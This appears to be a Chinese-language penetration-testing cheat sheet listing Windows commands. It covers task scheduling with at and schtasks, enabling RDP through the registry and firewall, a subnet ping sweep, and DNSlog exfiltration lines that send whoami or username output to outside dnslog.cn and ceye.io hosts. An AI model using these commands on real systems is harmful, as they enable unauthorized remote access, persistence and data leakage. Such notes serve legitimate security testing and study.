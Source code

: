 **at**
```cmd
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数 /yes 则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
```

**[Schtasks.exe](https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks)**
```markdown
创建计划任务 "gametime"，在每月的第一个星期天运行“空当接龙”。

SCHTASKS /Create /SC MONTHLY /MO first /D SUN /TN gametime /TR c:\windows\system32\freecell

- /SC   schedule     指定计划频率。有效计划任务:  MINUTE、 HOURLY、DAILY、WEEKLY、MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT.
- /MO   modifier     改进计划类型以允许更好地控制计划重复周期。有效值列于下面“修改者”部分中。
- /D    days         指定该周内运行任务的日期。有效值:MON、TUE、WED、THU、FRI、SAT、SUN和对 MONTHLY 计划的 1 - 31(某月中的日期)。通配符“*”指定所有日期。
- /TN   taskname     以路径\名称形式指定对此计划任务进行唯一标识的字符串。
- /TR   taskrun      指定在这个计划时间运行的程序的路径和文件名。例如: C:\windows\system32\calc.exe

```



**CMD开启rdp：**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**通过防火墙**
键入以下命令以通过Windows防火墙启用远程桌面，然后按Enter：
```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

**dnslog不只是可以ping，你还可以在里面带数据**

比如linux,
```
 ping `whoami`.ag1euc.dnslog.cn
```


windows下就是
```
ping %USERNAME%.xxxxx.ceye.io
```
这么搞，在真正无回显的情况下判断系统版本

CMD 扫描主机
```bash
## 探测一个C网段有多少台主机

for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```
